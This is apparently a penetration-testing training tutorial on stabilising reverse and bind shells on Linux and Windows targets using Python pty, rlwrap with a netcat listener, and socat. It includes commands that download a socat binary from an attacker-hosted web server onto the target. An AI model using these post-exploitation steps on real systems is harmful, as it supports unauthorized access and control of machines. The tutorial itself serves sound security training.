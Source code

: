 _Technique 1: Python_


The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

The full technique can be seen here:

![](https://i.imgur.com/bQnFz1T.png)

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

---

_Technique 2: rlwrap_

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, some_ manual stabilization must still be utilized if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

```
rlwrap nc -lvnp <port>  
```

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilize. When dealing with a Linux target, it's possible to completely stabilize, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilize and re-enter the shell.  

---

 _Technique 3: Socat_  

The third easy way to stabilize a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilization we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. 

On Linux this would be accomplished with curl or wget:

```
wget <LOCAL-IP>/socat -O /tmp/socat
```

In a Windows CLI environment: 

```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

---

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![](https://i.imgur.com/7aOKtlO.png)

Next, in your reverse/bind shell, type in:

```
stty rows <number>
```

and

```
stty cols <number>
```

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.